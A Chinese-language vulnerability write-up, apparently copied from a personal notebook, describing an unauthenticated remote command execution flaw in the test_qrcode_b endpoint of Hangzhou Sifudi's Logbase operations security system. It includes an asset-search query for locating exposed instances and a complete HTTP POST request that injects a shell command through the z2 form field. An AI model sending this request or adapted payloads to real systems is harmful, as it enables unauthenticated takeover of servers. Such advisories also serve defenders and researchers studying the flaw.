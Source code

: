 # 思福迪运维安全管理系统 test_qrcode_b存在远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">为满足用户对加强内部运维安全审计日益迫切的需要，杭州思福迪信息技术有限公司依托自身强大的研发能力，丰富的行业经验，自主研发了新一代软硬件一体化运维安全专用审计系统——Logbase运维安全管理系统。该系统支持对企业内部人员的维护行为进行全面的管理、审计，消除了传统审计系统中的盲点，使企业对运维人员的操作过程，能做到事前防范、事中控制、事后审计的能力，是企业IT内控最有效的运维管理平台。思福迪运维安全管理系统 test_qrcode_b存在远程命令执行漏洞，未经身份认证得攻击者可以通过此漏洞执行任意指令，造成服务器失陷。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 思福迪运维安全管理系统

# 三、资产测绘
+ hunter`app.name="Logbase 思福迪 运维安全系统"`
+ 特征

![1705244115545-ef7957e0-49a0-446a-af00-94cbec4e0d11.png](./img/ADIpIBPu5hmcUuwL/1705244115545-ef7957e0-49a0-446a-af00-94cbec4e0d11-969584.png)

# 四、漏洞复现
`referer`头不能删除

```plain
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 23
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: 

z1=1&z2="|id;"&z3=bhost
```

![]()



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cwhyqkk2t3hh660w>